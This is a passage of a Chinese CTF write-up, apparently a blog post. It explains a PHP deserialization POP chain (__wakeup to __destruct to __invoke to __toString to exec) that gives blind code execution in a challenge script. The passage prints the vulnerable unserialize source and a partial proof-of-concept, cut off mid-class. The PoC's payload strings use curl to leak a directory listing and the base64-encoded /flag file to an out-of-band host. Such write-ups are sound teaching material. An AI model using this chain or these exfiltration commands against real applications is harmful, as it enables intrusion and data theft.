 ```php
    }
}

class d {
    public function __invoke()
    {
        a::$Do_u_like_AFKL = true;
        return "关注嘉然," . $this->value;
    }
}

class e {
    public function __destruct()
    {
        if (a::$Do_u_like_JiaRan) {
            ($this->afkl)();
        } else {
            throw new Error("Noooooooooooooooooooooooooooo!!!!!!!!!!!!!!!!");
        }
    }
}

if (isset($_GET['data'])) {
    unserialize(base64_decode($_GET['data']));
} else {
    highlight_file(__FILE__);
}
```

a类的两个属性为静态属性，无法直接赋值改啦，看代码可以构造pop链

`c->__wakeup()`（`a::$Do_u_like_JiaRan = true;`；在随便定义个不存在的属性赋为e的实例化(new e();)）

——》`e->__destruct()`（`($this->afkl)()`触发invoke）

——》`d->__invoke()`（`a::$Do_u_like_AFKL = true;`；`return "关注嘉然," . $this->value;`触发toString）

——》`b->__toString()`（`exec($this->i_want_2_listen_2_MaoZhongDu);`exec无回显rce）

poc：

```php
<?php

class b {
    private $i_want_2_listen_2_MaoZhongDu='curl `ls / | sed -n "5p"`.xxx.ceye.io';
    # private $i_want_2_listen_2_MaoZhongDu='curl http://xxx.ceye.io/`cat /flag | base64`';
}

class c {
    public $fake;
    public function __construct(){
        $this->fake=new e();
    }
}

class d {
    public $value;
    public function __construct(){
        $this->value = new b();
    }
}

class e {
    public $afkl;
    public function __construct(){
```